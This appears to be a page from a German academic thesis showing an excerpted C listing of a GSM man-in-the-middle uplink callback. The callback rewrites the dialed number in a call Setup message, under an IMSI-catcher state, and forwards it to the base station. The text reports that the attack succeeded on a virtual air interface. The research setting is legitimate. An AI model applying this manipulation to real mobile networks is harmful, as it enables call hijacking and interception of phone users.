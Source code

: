 \begin{lstlisting}[caption={[Die Callbackfunktion für eingehende Nachrichten auf dem Uplink, Auszug aus der Setup-Manipulation Verarbeitungsroutine des MitM]Die Callbackfunktion für eingehende Nachrichten auf dem Uplink, Auszug aus der Setup-Manipulation Verarbeitungsroutine des \ac{MitM}}, label={lst:setup_manip1}, boxpos=c, frame=single, style=CStyle, numbers=none]
// Auszug aus dem Uplink Callback der Setup Manipulation MitM Verarbeitungsroutine.
// msg enthält die empfangene Originalnachricht.
struct msgb* uplink_rcv_cb_handler(struct msgb *msg)
{
	// Extraktion des GSMTAP Headers aus der Nachricht
	struct gsmtap_hdr *gh = msgb_l1(msg);
	// Puffer für manipulierte Nachricht
	struct msgb *manip_msg;
	// Puffer für kodierte Originalnachricht. LEN_BURSTMAP_XCCH ist 4*116.
	uint8_t encoded_msg[LEN_BURSTMAP_XCCH / 8];
	// Puffer für kodierte, manipulierte Nachricht
	uint8_t encoded_manip_msg[LEN_BURSTMAP_XCCH / 8];
	(...)
	switch(mitm_state) {
	(...)
	case STATE_IMSI_CATCHER_SABM:
		// Kopieren des GSMTAP Headers (l1h) in den Puffer für die manipulierte Setup 
		// Nachricht
		manip_msg->l1h = msgb_put(manip_msg, sizeof(*gh));
		memcpy(manip_msg->l1h, gh, sizeof(*gh));
		(...)
		manip_msg->l1h = msgb_put(manip_msg, sizeof(*gh));
		// Kanalkodierung der Nachricht. Der Kodierungsfunktion aus coder.c wird mit
		// der unkodierten Nachricht vom Typ PLAIN aufgerufen. Das wird Ergebnis im  
		// Puffer encoded_msg abgespeichert.
		xcch_encode(PLAIN, msgb_data(msg), encoded_msg, NULL, NULL, NULL);
		// Die Funktion die die Telefonnummer in der Setup-Nachricht austauscht. 
		// Die manipulierte Nachricht wird im Puffer encoded_manip_msg abgespeichert
		manip_setup_msg(encoded_manip_msg, encoded_msg, LEN_BURSTMAP_XCCH / 8);
		// Dekodieren der manipulierten Setup-Nachricht. Das Ergebnis wird im msgb 
		// Puffer manip_msg an Position des LAPDm Header abgespeichert (l2h).
		xcch_decode(BURSTMAP_XCCH, encoded_manip_msg, NULL, NULL, NULL, manip_msg->l2h);
		(...)
		break;
	}
	(...)
	// Der Rückgabewert der Verarbeitungsroutine ist die manipulierte Nachricht, 
	// vom MitM Gerüst wird diese also an die BTS weitergeleitet
	return manip_msg;
}
\end{lstlisting}

Mit dem \ac{MitM} und der Setup Manipulation Verarbeitungslogik konnte der Angriff erfolgreich auf dem virtuellen \ac{Um} ausgeführt und damit seine Machbarkeit gezeigt werden. Der Wireshark Mitschnitt des Nachrichtenverkehrs auf dem virtuellen \ac{Um} ist im Anhang in \autoref{lst:mitm_attack_wireshark} zu finden.
